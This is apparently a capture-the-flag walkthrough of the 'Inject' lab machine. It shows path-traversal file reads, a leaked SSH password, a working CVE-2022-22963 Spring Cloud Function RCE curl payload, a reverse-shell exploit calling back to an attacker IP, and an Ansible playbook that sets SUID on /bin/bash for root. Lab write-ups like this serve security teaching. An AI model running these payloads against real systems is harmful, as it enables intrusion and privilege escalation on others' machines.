



# Inject
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.3

## 1. Recon
```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.204
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-11 05:56 EDT
Nmap scan report for 10.10.11.204
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.15 seconds
```

## 2. TCP-8080



What we see is a platform for file storage and sharing. Looking at the functions on the site, we notice that the only one that works is "Upload".

<p align="center">
  
</p>

After some tests, I realized that what can be loaded is only a jpg image that can be accessed through the "show_image" endpoint, specifying, in the "img" parameter, the name of the loaded image.

    Ex. http://10.10.11.204:8080/show_image?img=test.jpg

This is very interesting because, even taking the name of the machine, I immediately think of something like LFI, RCE, XSS or some attack that involves code injection.

## 3. LFI
I then try LFI and it works

<p align="center">
  
</p>

Analyzing "/etc/passwd" we can see the presence of two users:

    frank:x:1000:1000:frank:/home/frank:/bin/bash
    phil:x:1001:1001::/home/phil:/bin/bash

So I looked for information in the home directories of the two users and I found that, in the home directory of the user frank, in particular in "/.m2/settings.xml" there are the login credentials via SSH of the user phil but it doesn't work the connection because there is a clear reference to the need to have the private key in the "user.home".

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

## 4. CVE-2022-22963
Since it is not possible to exploit the SSH credentials, I looked back for useful information understanding that the application is Spring Boot. So I started looking for Spring Boot exploits and found an [article](https://0x1.gitlab.io/exploit/SpringBoot-RCE/) which talks about if `Spring Cloud` is used (with between 3.1.7 and 3.2.3) then RCE is possible. To check for such a dependency I consulted the `pom.xml`.

```xml
<dependency>
  <groupId>org.springframework.cloud</groupId>
  <artifactId>spring-cloud-function-web</artifactId>
  <version>3.2.2</version>
</dependency>
```

### 4.1 PoC
#
I use the following command to create a file in `/tmp`:

```bash
└─$ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/PoC.worked")' --data-raw 'data' -v  
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.81.0
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/PoC.worked")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Thu, 11 May 2023 15:08:40 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-05-11T15:08:40.803+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

And it worked as you can see in the following image:

<p align="center">
  
</p>

At this point I found a [Reverse Shell](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit) for that CVE and executed it.

```bash
└─$ python exploit.py -u http://10.10.11.204:8080
[+] Target http://10.10.11.204:8080

[+] Checking if http://10.10.11.204:8080 is vulnerable to CVE-2022-22963...

[+] http://10.10.11.204:8080 is vulnerable

[/] Attempt to take a reverse shell? [y/n]y
Listening on 0.0.0.0 4444
[$$] Attacker IP:  10.10.XX.XX        
Connection received on 10.10.11.204 50416
bash: cannot set terminal process group (821): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ ls
```

We are frank but, as we have seen, to read the user flag we must be phil, therefore, using the credentials found previously, we execute the command `su phil` and obtain the flag.

```bash
frank@inject:/$ su phil
su phil
Password: DocPhillovestoInject123
whoami
phil
cat /home/phil/user.txt
230a20dab5f74f26a3a9b19f9b036e44
```

## 5. User to ROOT
Possiamo caricare [pspy](https://github.com/DominicBreuker/pspy) per monitorare i processi senza i permessi di root. La cosa interessante è che esiste un'attività che viene eseguita con autorizzazioni elevate tramite ansible-parallel.

```bash
2023/05/11 23:30:41 CMD: UID=0    PID=10     | 
2023/05/11 23:30:41 CMD: UID=0    PID=1      | /sbin/init auto automatic-ubiquity noprompt 
2023/05/11 23:32:01 CMD: UID=0    PID=19169  | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/                                                              
2023/05/11 23:32:01 CMD: UID=0    PID=19168  | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/                                                              
2023/05/11 23:32:01 CMD: UID=0    PID=19167  | /usr/sbin/cron -f 
2023/05/11 23:32:01 CMD: UID=0    PID=19166  | /usr/sbin/CRON -f 
2023/05/11 23:32:01 CMD: UID=0    PID=19165  | /usr/sbin/CRON -f 
2023/05/11 23:32:01 CMD: UID=0    PID=19170  | 
2023/05/11 23:32:01 CMD: UID=0    PID=19172  | /usr/sbin/CRON -f 
2023/05/11 23:32:01 CMD: UID=0    PID=19173  | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml                                                                                                  
2023/05/11 23:32:01 CMD: UID=0    PID=19174  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml                                                                                                        
2023/05/11 23:32:02 CMD: UID=0    PID=19176  | 
2023/05/11 23:32:02 CMD: UID=0    PID=19178  | ssh -o ControlPersist 
2023/05/11 23:32:02 CMD: UID=0    PID=19180  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml         
```

So let's see what is written in "`playbook_1.yml`".

```bash
cat playbook_1.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

Googling if it was possible to exploit `ansible-playbook` for privilege escalation, I found an [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/) which explains step by step how to customize the playbook to run commands at will.

Now we can prepare a custom playbook to add SUID to `/bin/bash`.

```yaml
- hosts: localhost
  tasks:
  - name: getshell
    command: chmod u+s /bin/bash
    become: true
```

After that, we can upload the custom playbook with a python server, wait the execute of our program, run "`bash -p`" and get the root flag.

```bash
phil@inject:/opt/automation/tasks$ wget http://10.10.XX.XX:80/playbook_2.yml
--2023-05-11 23:44:56--  http://10.10.XX.XX/playbook_2.yml
Connecting to 10.10.XX.XX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 97 [application/octet-stream]
Saving to: ‘playbook_2.yml’

playbook_2.yml      100%[===================>]      97  --.-KB/s    in 0s      

2023-05-11 23:44:56 (1.25 MB/s) - ‘playbook_2.yml’ saved [97/97]

phil@inject:/opt/automation/tasks$ cat playbook_2
cat: playbook_2: No such file or directory
phil@inject:/opt/automation/tasks$ cat playbook_2.yml 
- hosts: localhost
  tasks:
  - name: getshell
    command: chmod u+s /bin/bash
    become: true
phil@inject:/opt/automation/tasks$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
phil@inject:/opt/automation/tasks$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
7f826677e563e15be3521c9726bdb1a2
```